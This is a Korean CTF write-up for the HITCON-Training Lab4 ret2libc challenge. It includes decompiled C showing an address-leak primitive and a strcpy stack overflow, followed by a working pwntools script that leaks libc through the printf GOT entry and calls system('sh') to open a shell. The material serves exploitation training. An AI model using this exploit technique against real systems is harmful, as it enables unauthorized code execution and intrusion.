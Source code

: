 ```yaml
---
title: "[HITCON-Training]Lab4"
date: 2019-11-17
tags: [hitcon]
categories: [HITCON-Training]
---
```


RTL문제다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char **v3; // ST04_4
  int v4; // ST08_4
  char src; // [esp+12h] [ebp-10Eh]
  char buf; // [esp+112h] [ebp-Eh]
  _DWORD *v8; // [esp+11Ch] [ebp-4h]
 
  puts("###############################");
  puts("Do you know return to library ?");
  puts("###############################");
  puts("What do you want to see in memory?");
  printf("Give me an address (in dec) :");
  fflush(stdout);
  read(0, &buf, 10u);
  v8 = strtol(&buf, v3, v4);
  See_something(v8);
  printf("Leave some message for me :");
  fflush(stdout);
  read(0, &src, 256u);
  Print_message(&src);
  puts("Thanks you ~");
  return 0;
}
```

buf에 10진수로 printf의 got값을 넣어주면 See_something함수에서 그 주소가 leak된다. 

leak된 printf로 libc base 구한 후 system address 구해주면 된다.

```c
int __cdecl See_something(_DWORD *a1)
{
  return printf("The content of the address : %p\n", *a1);
}
```

read()함수에 넣은 src가 Print_message함수에 인자로 들어가서 strcpy에서 취약점이 발생한다. 

```c
int __cdecl Print_message(char *src)
{
  char dest; // [esp+10h] [ebp-38h]
 
  strcpy(&dest, src);
  return printf("Your message is : %s", &dest);
}
```

payload = buf(0x38) + sfp(4) + ret(system) + pop + sh

이렇게 페이로드 구성해주면 쉘을 딸 수 있다.

.dynstr에서 sh위치 가져와서 system("sh");가 되게 했다.

```python
from pwn import *
 
# context.log_level = 'debug'
e = ELF('./ret2lib')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./ret2lib')
 
p.sendlineafter(':',str(e.got['printf']))
 
p.recvuntil(': ')
printf = int(p.recv(10),16)
libc_base = printf - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
system = libc_base + libc.symbols['system']
 
sh = 0x804829e # .dynstr -> fflush
popret = 0x08048399 # pop ebx ; ret
pay = 'A'*(0x38+4)
pay += p32(system)
pay += p32(popret)
pay += p32(sh)
 
p.sendlineafter(':',pay)
p.interactive()
```

